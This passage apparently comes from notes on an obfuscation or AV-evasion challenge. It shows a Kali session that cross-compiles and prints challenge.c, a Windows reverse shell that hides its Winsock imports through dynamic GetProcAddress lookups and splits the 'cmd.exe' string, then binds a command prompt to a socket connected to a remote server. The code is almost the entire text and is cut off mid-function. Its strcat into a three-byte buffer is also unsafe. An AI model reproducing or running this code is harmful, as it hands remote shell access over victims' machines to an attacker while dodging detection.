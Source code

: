 ```
┌──(kali㉿kali)-[~/obfus]
└─$ i686-w64-mingw32-gcc challenge.c -o challenge.exe
                                                                                               
┌──(kali㉿kali)-[~/obfus]
└─$ ls
challenge-1.ps1  challenge-2.exe  challenge-8.cpp  challenge.c  challenge.exe  flag1.ps
                                                                                               
┌──(kali㉿kali)-[~/obfus]
└─$ cat challenge.c    
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
typedef u_short(WSAAPI* HTONS)(u_short hostshort);
typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
typedef int(WSAAPI* WSACLEANUP)(void);

void Run(char* Server, int Port) {

HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup"); 

        SOCKET s12;
        struct sockaddr_in addr;
        WSADATA version;
        myWSAStartup(MAKEWORD(2,2), &version);
        s12 = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = myinet_addr(Server);
        addr.sin_port = myhtons(Port);

        if (myWSAConnect(s12, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            myclosesocket(s12);
            myWSACleanup();
        } else {
            
            char P1[] = "cm";
            char P2[] = "d.exe";
            char* P = strcat(P1, P2);
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) s12;
            CreateProcess(NULL, P, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

```